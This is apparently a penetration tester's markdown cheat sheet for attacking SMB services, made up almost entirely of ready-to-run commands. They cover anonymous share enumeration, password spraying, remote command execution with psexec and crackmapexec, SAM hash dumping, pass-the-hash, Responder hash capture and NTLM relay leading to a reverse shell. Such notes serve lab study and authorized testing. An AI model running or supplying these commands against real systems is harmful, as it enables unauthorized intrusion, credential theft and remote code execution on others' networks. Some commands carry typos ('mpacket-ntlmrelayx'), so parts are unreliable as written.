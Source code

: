 ### Misconfigurations

No Auth = null session 
	Anonymous login
SMBClient
```shell
smbclient -N -L //10.129.14.128
```
SMBMap
```shell
smbmap -H 10.129.14.128
```
```shell
smbmap -H 10.129.14.128 -r notes
```
```shell
smbmap -H 10.129.14.128 --download "notes\note.txt"
```
```shell
smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"
```

#### RPC 
Take advantage of null sessions 
Enumerate DC?
[cheat sheet](https://www.willhackforsushi.com/sec504/SMB-Access-from-Linux.pdf)
```shell-session
rpcclient -U'%' 10.10.110.17
```

```shell
/enum4linux-ng.py 10.10.11.45 -A -C
```

### Password spray / brute force 

```shell-session
crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth
```

### RCE
```shell
impacket-psexec -h (<impacket-psexec administrator:'Password123!'@10.10.110.17>)
```

```shell
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
```

#### Logged on Users

```shell
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users
```

#### Extracting SAM Hashes 

```shell
crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
```

#### PtH

```shell
crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```

### Forced Authentication Attacks 
Fake SMB Server to capture NTLM v1/2 hashes

```shell
responder -I <interface name>
```
crack creds on hashcat/john

Saved hashes will go to 
`/usr/share/responder/logs/`)

### Relay hash to [ntlmrelayx](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py)/ [multirelay](https://github.com/lgandx/Responder/blob/master/tools/MultiRelay.py)
Set SMB to of in responder 
```shell
cat /etc/responder/Responder.conf | grep 'SMB ='
```

Execute ntlmrelayx
```shell
impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146
```
Will dump SAM database,
execute commands with -c 

### Reverse shell
```shell
mpacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c <powershell base 64>
```
Need client to connect to SMB share 

## Recent Vulns
[SMBGhost](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-0796)
windows 10 1903 and 1909
Allows RE 
